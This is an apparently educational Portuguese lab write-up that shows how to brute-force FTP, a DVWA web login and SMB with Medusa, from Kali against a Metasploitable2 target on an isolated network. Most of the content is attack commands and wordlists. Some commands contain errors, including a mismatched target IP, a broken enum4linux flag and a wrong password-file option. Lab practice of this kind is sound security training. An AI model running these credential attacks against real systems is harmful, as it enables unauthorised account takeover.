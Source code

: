 <h1>Lab: Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux</h1>

**Autor:** Wanderson Gomes<br>
**Data:** 2025-10-03

<h1>Objetivo</h1> <br> 

* Ao concluir este desafio, você será capaz de: <br>
* Compreender ataques de força bruta em diferentes serviços (FTP, Web, SMB);<br>
* Utilizar o Kali Linux e o Medusa para auditoria de segurança em ambiente controlado;<br>
* Documentar processos técnicos de forma clara e estruturada;<br>
* Reconhecer vulnerabilidades comuns e propor medidas de mitigação;<br>
* Utilizar o GitHub como portfólio técnico para compartilhar documentação e evidências.<br>

<h1>Pré-requisitos</h1>

* Host com VirtualBox (ou similar).
* Imagens VM:
  - Kali Linux (atacante) — versão atual do Kali.
  - Metasploitable2 (alvo) — já contém serviços vulneráveis; tem DVWA por padrão em alguns builds.
* Ferramentas (em Kali): medusa, hydra, nmap, smbclient...
* Rede isolada: Host-Only no VirtualBox.
* Permissão explícita para executar testes.

<h1>Arquitetura do Lab</h1>

* Kali (atacante) — 192.168.56.101
* Metasploitable2 (alvo) — 192.168.56.102
* Rede: VirtualBox Host-Only

<h1>Execução — comandos principais</h1>

**1. Scan Inicial** <br>

````
nmap -sV -p 21,22,80,445,139 192.168.26.102
````
**2. Força-bruta FTP (Medusa)** <br>
Criando arquivos de Usuário:
````
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
````
Criando arquivos de Senhas:
````
echo -e "1234\npassword\nqwerty\nmsfadmin" > pass.txt
````
Aplicando força bruta:
````
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
````
**3.Brute-force de formulário web (DVWA) (medusa)** <br>
````
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login Failed'
````
**4. Password-spraying SMB (Medusa — smbnt)**
Enumerar usuário existentes:
````
enum4linux - 192.168.56.102 | tee enum4output.txt
````
Ler TXT gerado:
````
less enum4output.txt
````
Criando arquivos de Usuário:
````
echo -e "user\nmsfadmin\service" > smb_users.txt
````
Criando arquivos de Senhas:
````
echo -e "1password\n123456\nWelcome123\nmsfadmin" > Senhas_spray.txt
````
Aplicando força bruta com Spray:
````
medusa -h 192.168.56.102 -U smb_users.txt -p senhas_spray.txt -M smbnt -t 2 -T 50
````

OBRIGADO!
